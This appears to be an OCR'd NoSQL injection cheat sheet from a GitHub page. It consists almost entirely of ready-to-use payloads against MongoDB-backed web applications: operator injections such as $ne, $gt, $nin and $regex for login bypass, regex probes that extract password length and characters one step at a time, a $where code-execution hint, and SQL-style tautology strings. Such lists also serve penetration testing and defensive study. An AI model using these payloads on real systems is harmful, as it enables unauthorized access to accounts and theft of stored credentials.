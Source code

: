 # NoSQL Injection
## Exploit
**PHP**

The exploits are based in adding an Operator
```php
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code

```

### Authentication Bypass
Basic authentication bypass using not equal ($ne) or greater ($gt)
```javascript
in DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}

```
### SQL - Mongo
```html
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00

```

### Extract length information
```javascript
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}

```
### Extract data information
```javascript
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
```